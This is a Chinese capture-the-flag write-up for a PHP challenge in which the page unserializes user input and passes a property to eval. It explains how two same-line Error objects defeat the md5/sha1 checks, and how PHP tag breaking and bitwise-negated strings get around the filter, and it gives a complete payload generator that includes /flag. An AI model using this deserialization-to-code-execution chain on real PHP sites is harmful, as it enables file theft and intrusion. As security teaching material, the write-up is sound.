 ![](<./img/Pasted image 20230217114125.png>)

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

好消息——是反序列化
坏消息——考的不是反序列化

需要绕过`md5`和`sha1`的比较，第一个想到的是数组绕过，但是`syc`需要作为`eval`的参数，因此需要不能为数组

这里利用`Error`类绕过，其通过`__toString`魔术方法定义了隐式转换为字符串的方法，通过创建两个向字符串隐式转换结果相同的`Error`对象，即可令`md5`和`sha1`的结果相同，同时改变不影响转换结果的`Error`的某个属性，即可在此基础上使两个`Error`对象的弱相等比较结果为假

```php
<?php
$a = new Error("php_wa_sai_kou!", 233);
echo $a;
```

```
Error: php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:2
Stack trace:
#0 {main}
```

创建一个简单的`Error`对象，观察到影响字符串表示的只有创建`Error`对象时的当前行号以及传递的错误消息

因此将两个创建`Error`对象的语句放在同一行，令错误消息相同，但错误码不同即可绕过棘手的相等性判断

```php
<?php
$a = new Error("php_wa_sai_kou!", 233); $b = new Error("php_wa_sai_kou!");
echo $a != $b && md5($a) === md5($b) && sha1($a) === sha1($b);
```

```
1
```

由于`Error`对象的字符串表示包含了杂七杂八的信息，因此简单地将要执行的代码作为错误消息构造出来的`Error`对象转换为字符串后并不能被`eval`正确执行

考虑到`eval`的实现利用了字符串拼接，可以通过`php`标签将各个部分隔离起来

```php
<?php
$message = "?><?php echo 'php_wa_sai_kou!';?>";
$err = new Error($message);
eval($err);
```

```
php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:3
Stack trace:
#0 {main}
```

```php
if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)) {...}
```

这里过滤了双引号和左右括号，因此使用`include`关键字包含`/flag`，同时利用取反绕过

```php
<?php
$message = "?><?php include ~" . ~"/flag" . "?>";
$err = new Error($message);
eval($err);
```

![](<./img/Pasted image 20230217143303.png>)

最后序列化即可

```php
<?php

class SYCLOVER
{
    public $syc;
    public $lover;
}

$message = "?><?= include ~" . ~"/flag" . "?>";
$err1 = new Error($message, 1); $err2 = new Error($message, 2);

$payload = new SYCLOVER();
$payload->syc = $err1;
$payload->lover = $err2;

echo urlencode(serialize($payload));
```

![](<./img/Pasted image 20230217150313.png>)

#Web #PHP #serialization #bypass #error